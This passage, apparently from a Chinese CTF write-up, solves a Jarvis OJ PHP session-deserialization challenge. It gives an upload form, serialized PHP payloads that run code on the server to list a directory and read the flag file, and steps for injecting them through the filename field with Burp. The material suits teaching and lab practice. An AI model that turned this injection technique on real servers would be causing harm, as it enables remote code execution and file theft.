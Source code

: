 ![](php反序列化/11.png)

构造文件上传的表单

```html
<form action="http://web.jarvisoj.com:32784/index.php" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="777" />
    <input type="file" name="file" />
    <input type="submit" />
</form>
```

接下来构造序列化payload

```php
<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
class OowoO
{
    public $mdzz='print_r(scandir(dirname(__FILE__)));';
}
$obj = new OowoO();
echo serialize($obj);
?>
```

由于采用Burp发包，为防止双引号被转义，在双引号前加上`\`，除此之外还要加上`|`

在这个页面随便上传一个文件，然后抓包修改`filename`的值

![](php反序列化/12.png)

可以看到`Here_1s_7he_fl4g_buT_You_Cannot_see.php`这个文件，flag肯定在里面，但还有一个问题就是不知道这个路径，路径的问题就需要回到phpinfo页面去查看

![](php反序列化/13.png)

因此我们只需要把payload，当中改为`print_r(file_get_contents("/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php"));`即可获取flag

```php
<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
class OowoO
{
    public $mdzz='print_r(file_get_contents("/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php"));';
}
$obj = new OowoO();
echo serialize($obj);
?>
```



# 参考文章
